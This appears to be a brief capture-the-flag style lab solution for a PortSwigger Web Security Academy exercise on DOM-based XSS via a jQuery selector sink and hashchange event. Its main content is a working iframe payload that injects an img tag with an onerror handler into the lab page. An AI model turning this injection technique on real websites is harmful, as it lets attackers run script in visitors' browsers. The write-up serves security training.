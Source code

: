 # DOM XSS in jQuery selector sink using a hashchange event

Link to Lab :- `https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event`

![image](https://user-images.githubusercontent.com/60841283/153715819-9a062dcf-58e4-45a5-a189-aac07f5687c4.png)

Payload in exploit server (in Body section) :-
```html
<iframe src="https://ac331fde1fa05e1cc0f74e150069006e.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
